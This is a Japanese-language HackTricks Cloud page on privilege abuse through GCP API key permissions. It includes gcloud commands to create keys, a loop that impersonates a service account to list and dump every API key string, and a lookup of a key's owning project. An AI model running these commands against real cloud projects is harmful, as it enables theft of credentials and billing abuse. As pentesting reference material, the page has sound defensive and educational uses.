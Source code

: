 # GCP - Apikeys Privesc

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* もし **あなたの会社をハックトリックで宣伝したい** または **PEASSの最新バージョンを入手したい** または **HackTricksをPDFでダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) をフォローする。
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## apikeys

次の権限は、APIキーの作成と盗み出しに役立ちます。ドキュメントからの引用ではありませんが、_APIキーは、**主体なしでアプリケーションを識別する**ための単純な暗号化された文字列です。これらは、**公開データに匿名でアクセスする**ために便利であり、クォータと**請求**のためにAPIリクエストをプロジェクトに**関連付ける**ために使用されます。_

したがって、APIキーを使用すると、その会社にAPIの使用料を支払わせることができますが、特権をエスカレーションすることはできません。

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

この権限を使用すると、**APIキーを作成**することができます。
```bash
gcloud alpha services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
[**ここで脆弱性環境の作成、悪用、クリーニングを自動化するスクリプトを見つけることができます**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh)。

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

これらの権限は、**すべてのapiKeysをリストアップし、キーを取得する**ことができます。
```bash
gcloud alpha services api-keys create
for  key  in  $(gcloud --impersonate-service-account="${SERVICE_ACCOUNT_ID}@${PROJECT_ID}.iam.gserviceaccount.com" alpha services api-keys list --uri); do
gcloud --impersonate-service-account="${SERVICE_ACCOUNT_ID}@${PROJECT_ID}.iam.gserviceaccount.com" alpha services api-keys get-key-string "$key"
done
```
[**ここで脆弱な環境の作成、悪用、およびクリーニングを自動化するスクリプトを見つけることができます**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh)。

### `apikeys.keys.regenerate` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

これらの権限を使用すると、**すべてのAPIキーをリスト化し、新しいキーを取得することができます**（可能性があります）。\
`gcloud`からは使用できませんが、おそらくAPI経由で使用できるでしょう。サポートされると、前の方法と同様に悪用できると思われます。

### `apikeys.keys.lookup` <a href="#apikeys.keys.lookup" id="apikeys.keys.lookup"></a>

これは、見つけたAPIキーがどのGCPプロジェクトに属しているかを確認するのに非常に便利です。
```bash
gcloud alpha services api-keys lookup AIzaSyD[...]uE8Y
name: projects/5[...]6/locations/global/keys/28d[...]e0e
parent: projects/5[...]6/locations/global
```
このシナリオでは、[https://github.com/ozguralp/gmapsapiscanner](https://github.com/ozguralp/gmapsapiscanner)というツールを実行して、APIキーでアクセスできる内容をチェックすることも興味深いかもしれません。

<details>

<summary><strong>ハックトリックスをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見する
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
